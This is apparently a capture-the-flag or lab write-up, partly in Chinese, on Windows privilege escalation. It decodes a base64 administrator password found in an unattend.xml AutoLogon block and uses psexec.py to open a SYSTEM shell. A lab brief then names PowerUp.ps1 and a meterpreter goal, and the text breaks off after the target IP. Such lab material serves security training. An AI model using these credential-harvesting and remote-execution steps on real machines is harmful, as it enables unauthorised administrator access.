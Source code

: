 ```
cat unattend.xml

<AutoLogon>
    <Password>
        <Value>QWRtaW5AMTIz</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>administrator</Username>
</AutoLogon>
```

```
vim password.txt

QWRtaW5AMTIz
```

```
base64 -d password.txt
Admin@123
```

We should get a command shell session:

```
psexec.py Administrator@10.2.27.165

Password: Admin@123

C:\Windows\system32>whoami
nt authority\system
```

I've been able to get access to the target system by finding legitimate Administrator's password with a Windows configuration files, more specifically, the unattended setup utilities configuration files.

# Unattended Installation（无人参与安装）
## 概述
提供给您的 Kali GUI 机器和 Windows 机器。 

您的任务是运行 PowerUp.ps1  Powershell 脚本来查找常见的 Windows 权限提升漏洞，该漏洞取决于错误配置。PowerSploit 后期开发框架已经在windows机器上提供给你了。

目标：以高权限访问meterpreter会话。

指示：

* 您可以通过在命令提示符下运行“ipconfig”命令来检查机器的 IP 地址，即 cmd.exe

* 不要攻击位于 IP 地址 10.0.0.1 的网关

## 我自己的思路
### 方法一
```
Target Machine IP Address: : 10.0.16.244
```

